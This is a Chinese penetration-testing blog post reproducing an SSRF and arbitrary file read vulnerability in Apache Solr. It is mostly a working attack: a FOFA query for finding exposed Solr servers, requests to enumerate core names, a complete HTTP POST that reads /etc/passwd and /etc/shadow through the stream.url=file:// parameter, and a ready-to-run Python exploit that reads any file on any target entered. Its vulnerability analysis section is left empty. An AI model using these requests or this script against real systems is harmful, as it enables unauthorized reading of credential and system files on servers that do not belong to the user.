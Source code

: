 ```yaml
---
title: Apache Solr SSRF与任意文件读取漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- 漏洞复现
- Solr
abbrlink: 7700
date: 2021-03-22 11:46:53
keywords:
summary:
img:
password:
---
```




# 前言

Apache Solr是一个开源的搜索服务，使用Java语言开发，基于Lucene的全文搜索服务器。

Apache Solr全版本存在一个SSRF与任意文件读取漏洞，因Apache Solr整体默认安装为未授权，且大部分资产都为未授权，提供众多api接口，支持未授权用户通过config api更改配置文件，攻击面较大。建议相关用户及时采取措施阻止攻击。



# 影响范围

Apache Solr 所有版本





# 漏洞复现

**fofa查询资产关键字：**

```
app="APACHE-Solr"
```



**1.首先访问目标url拼接下面的路径，获取实例对象的名称**

```bash
/solr/admin/cores?indexInfo=false&wt=json
```



![获取实例名称](http://image.geoer.cn/solr_instance.png)

如图，可以得到实例对象的名称为`Tourist-guide-Server`





**2.构造路径**

```bash
/solr/".iii."/debug/dump?param=ContentStreams&wt=json
```

其中`iii`就是我们前面得到的实例对象的名称
这里，我们构造之后为下面这个(这个地址作为post请求的地址)：

```bash
/solr/Tourist-guide-Server/debug/dump?param=ContentStreams&wt=json
```



而post数据中的body的内容为：`stream.url=file:///etc/passwd`

即(**发送这个数据包**)：

```bash
POST /solr/Tourist-guide-Server/debug/dump?param=ContentStreams&wt=json HTTP/1.1
Host: IP:PORT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

stream.url=file:///etc/shadow
```



![读取文件](http://image.geoer.cn/solr_ok.png)







# 漏洞分析

略





# EXP

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-
import requests
import json
import urllib
import time
import re
def Getins(url):
    try:
        ins=""
        url = url+"solr/admin/cores?indexInfo=false&wt=json"
        response = requests.get(url=url)
        data = str(response.text)
        ins = re.findall(r'\"name\":\"(.+?)\",',data)[0]
        return(ins)
    except IndexError:
        return("")

def Getfile(url,ins,filename):
    try:
        url = url+"solr/"+ins+"/debug/dump?param=ContentStreams&wt=json"
        headers ={
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        payload = str("stream.url=file://"+filename)
        response = requests.post(url=url,headers=headers,data=payload)
        data = str(response.text)
        test = re.findall(r'\"stream\":\"(.+?)\"\}]',data)[0]
        print(test.replace(r"\n","\n"))
    except IndexError:
        print("不能读取此文件")
        

if __name__ == '__main__':
    url = input("请输入测试地址:")
    filename = input("请输入读取的文件路径:")
    ins=Getins(url)
    if(ins == ""):
        print("不存在漏洞")
    else:
        Getfile(url,ins,filename)
```

读取效果：

![exp效果](http://image.geoer.cn/solrexp.png)
